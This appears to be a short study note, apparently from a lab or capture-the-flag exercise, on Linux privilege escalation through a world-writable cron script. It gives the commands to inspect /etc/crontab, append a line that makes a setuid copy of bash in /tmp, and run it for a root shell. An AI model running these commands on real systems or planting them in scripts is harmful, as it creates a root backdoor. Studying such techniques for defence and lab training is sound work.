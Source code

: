 This happens when we are able to write on the files executed by the `cron`.

In this case we can see:
```bash
cat /etc/crontab
```
- ![[Pasted image 20250117162625.png]]

So we locate the file:
```bash
locate overwrite.sh
```
- ![[Pasted image 20250117162847.png]]


And if we check the permissions over `compress.sh`:
```bash
ls -la /usr/local/bin/overwrite.sh
```
- ![[Pasted image 20250117162717.png]]
- we can notice we have `read` and `write` permission on that file, so we can modify it


In that case we just need to write on this file:
```bash
echo 'cp /bin/bash /tmp/bash; chmod +s /tmp/bash' >> /usr/local/bin/overwrite.sh
```


At this point the system will create a `bash` binary on `/tmp`:
- ![[Pasted image 20250117163038.png]]


We run it:
```bash
/tmp/bash -p
```
- ![[Pasted image 20250117163101.png]]


<mark style="background: #BBFABBA6;">We gain a root shell!</mark>
